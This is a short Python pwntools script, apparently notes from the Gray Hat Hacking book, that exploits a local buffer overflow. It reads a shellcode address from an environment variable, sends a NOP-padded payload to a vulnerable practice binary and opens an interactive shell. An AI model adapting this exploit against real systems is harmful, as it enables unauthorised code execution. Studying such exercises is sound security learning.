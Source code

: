 ```python
#!/usr/bin/env python3
#smallbuf_exploit.py
from pwn import *

context.update(arch='i386', os='linux')

#Get SHELLCODE env
envp = process("./getenv")
shellcode_env = p32(int(envp.readline().strip(), 16))
envp.close()

print("SHELL ADDRESS: ", shellcode_env)

payload = b"\x90"*18 + shellcode_env

p = process(["./smallbuff", payload])
p.interactive()

```

- This is from GrayHatHacking
- getenv is a program that displays the shellcode